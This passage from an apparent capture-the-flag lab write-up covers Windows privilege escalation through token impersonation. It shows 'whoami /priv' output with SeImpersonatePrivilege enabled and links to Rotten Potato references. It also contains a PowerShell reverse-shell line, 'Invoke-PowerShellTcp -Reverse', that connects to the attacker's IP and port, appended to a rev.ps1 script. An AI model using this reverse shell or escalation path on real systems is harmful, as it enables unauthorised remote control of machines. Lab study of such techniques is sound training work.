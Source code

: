 So we have, ```SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED```


A good article about ```Windows Token Impersonation``` - [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens),


Lets check the ```privs``` for the user in ```cmd```,

```c
C:\Users\kohsuke\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

More references on ```token impersonation```

[Token Impersonation](https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation)

[Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)


Adding the below line to our ```Powershell Reverseshell```

```c
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 6767
```

Verifying it,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ cat rev.ps1| tail                                                                
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 6767
```
